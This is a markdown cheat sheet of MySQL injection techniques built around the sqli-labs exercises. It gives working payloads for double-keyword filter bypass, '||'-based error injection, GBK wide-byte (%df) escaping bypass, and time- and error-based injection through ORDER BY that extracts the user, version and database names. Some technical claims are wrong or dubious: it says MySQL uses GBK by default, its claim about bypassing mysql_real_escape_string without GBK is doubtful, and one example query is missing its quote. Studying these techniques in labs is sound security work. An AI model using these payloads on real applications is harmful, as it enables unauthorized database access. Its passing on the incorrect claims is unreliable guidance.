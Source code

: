 # Mysql Injection Tips

Write by manesec.

## Useful Website

+ [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
+ [Mysql sql injection cheat sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)


## 0x0 Some by pass word

+ Space = `%0a`, `+`
+ and = `&&`
+ or = `||`

## 0x1 Bypass `only filtered at once`

Sometimes some phrases are only filtered at one time, It just turns some simple words into blanks and passes them to Mysql.

Example code like :

``` php
function blacklist($id){
    $id= preg_replace('/or/i',"", $id);
    $id= preg_replace('/AND/i',"", $id);
    return $id;
}
```

See: https://github.com/Audi-1/sqli-labs/blob/e96f21776372c8613a7e565106e62bc01a59355e/Less-25/index.php#LL61C27-L61C27

Filtered:  `or`, `and`

1. Input: `id = 1' and 1=1 -- -`
2. Filtered will be: `id = 1' 1=1 -- -`
3. Pass to mysql to exec.

Now you can do :

1. Input: `id = 1' aandnd 1=1 -- -`
2. Filtered will be: `id = 1' and 1=1 -- -`
3. Pass to mysql to exec the injection command.

The reason it worked was because he only filtered it once.

## 0x2 Bypass `space` and `command out`

Example code like :

```php
function blacklist($id) {
    $id= preg_replace('/or/i',"", $id);            //strip out OR (non case sensitive)
    $id= preg_replace('/and/i',"", $id);        //Strip out AND (non case sensitive)
    $id= preg_replace('/[\/\*]/',"", $id);        //strip out /*
    $id= preg_replace('/[--]/',"", $id);        //Strip out --
    $id= preg_replace('/[#]/',"", $id);            //Strip out #
    $id= preg_replace('/[\s]/',"", $id);        //Strip out spaces
    $id= preg_replace('/[\/\\\\]/',"", $id);        //Strip out slashes
    return $id;
}
$id= blacklist($id);
$hint=$id;
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

See: https://github.com/Audi-1/sqli-labs/blob/e96f21776372c8613a7e565106e62bc01a59355e/Less-26/index.php#L59


Filtered:  `or`, `and`,  `/*` , `–` ,`#` , `SPACE` , `/`

Using `||` to by pass it, like: 

`index.php?id=1'||extractvalue(1,concat(0x7e,user(),0x7e))||'`

## 0x3 Wide byte injection: `%df`

```php

    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
      
```

See: https://github.com/Audi-1/sqli-labs/blob/e96f21776372c8613a7e565106e62bc01a59355e/Less-32/index.php#L19

Filtered: `/`, `'`, `"`

Add `%df` like `?id=%df' and 1=1 -- -`

MySQL uses GBK encoding by default. When MySQL uses GBK encoding, it considers two characters as one Chinese character if the ASCII code of the first character is greater than 128 (which falls within the range of Chinese characters). 

This is a feature of MySQL because GBK is a multi-byte encoding that considers two bytes as one Chinese character. When we pass parameters, we use the URL encoding for the single quote, represented as `%27`, and we can pass it as `%df%27`.

**Note** : `%23` = `#`

When we pass in `%df` as a parameter, it becomes `?id=1%DF and 1=1%23` in the database. 

At this point, the escape function will also escape the single quote we entered and convert it to `\'`, (where the URL encoding of "\" is `%5C`). 

In the URL, it becomes `%DF%5c%27`. When encoded in GBK, `%5c` will be combined with the previous `%df` to form a Chinese character (運), which closes the single quote and successfully executes the query. 

The final SQL statement is: `select * from user where id='1運' and 1=1#'`

See: https://www.freebuf.com/articles/web/337784.html

## 0x4 Bypass `mysql_real_escape_string()` when Mysql is not GBK encoding.

In the php code using the `mysql_real_escape_string()` to filtered some work, but mysql not using GBK encoding.

`\x00`, `\n`, `\r`, `\`, `'`, `"` and `\x1a` will not work.

But it have a two way to bypass it, using `%df'` or `%EF%BF%BD` (Like `%df`).

## 0x5 `order by` after injection.

```php
$sql = "SELECT * FROM users ORDER BY $id";
```

See: https://github.com/Audi-1/sqli-labs/blob/e96f21776372c8613a7e565106e62bc01a59355e/Less-46/index.php#LL22C2-L22C44

`index.php?sort=1`


**boolean injection** : It can use some function like

+ `?sort=rand(false)`

**Time based**: 

+ `?sort=(SELECT IF(SUBSTRING(current,1,1)=CHAR(115),BENCHMARK(50000000,md5('1')),null) FROM (select database() as current) as tb1)`

**Error based**:

Note: `PROCEDURE ANALYSE()` is deprecated as of MySQL 5.7.18, and is removed in MySQL 8.0.

+ `?sort=updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)`
+ `?sort=extractvalue(rand(),concat(0x3a,version()))`
+ `?sort=1 AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)`
+ `?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)`

